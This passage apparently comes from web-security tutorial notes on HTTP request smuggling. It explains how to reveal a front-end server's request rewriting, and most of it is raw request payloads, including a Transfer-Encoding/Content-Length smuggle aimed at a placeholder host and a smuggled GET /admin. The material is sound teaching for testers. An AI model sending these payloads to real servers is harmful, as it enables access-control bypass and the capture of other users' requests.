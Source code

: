 0

GET /admin HTTP/1.1
Host: vulnerable-website.com
Foo: xGET /home HTTP/1.1
Host: vulnerable-website.com
```

## Revealing front-end request rewriting

The front-end server performs some rewriting of requests before they are forwarded to the back-end server, typically by adding some additional request headers

*  Find a POST request that reflects the value of a request parameter into the application's response. 
*  Shuffle the parameters so that the reflected parameter appears last in the message body. 
*  Smuggle this request to the back-end server, followed directly by a normal request whose rewritten form you want to reveal. 


*Suppose an application has a login function that reflects the value of the email parameter:*
```
POST /login HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 28

email=wiener@normal-user.net
```

This results in a response containing the following: 

```html
<input id="email" value="wiener@normal-user.net" type="text">
```

Here you can use the following request smuggling attack to reveal the rewriting that is performed by the front-end server: 


```
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 130
Transfer-Encoding: chunked

0

POST /login HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 100

email=POST /login HTTP/1.1
Host: vulnerable-website.com
...
```
